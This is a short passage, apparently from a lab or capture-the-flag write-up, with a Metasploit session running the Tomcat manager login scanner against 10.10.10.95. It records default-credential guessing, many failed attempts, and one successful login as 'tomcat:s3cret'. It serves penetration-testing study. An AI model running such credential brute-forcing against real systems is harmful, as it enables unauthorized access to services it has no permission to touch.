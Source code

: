 ```
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.10.10.95
rhosts => 10.10.10.95
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
```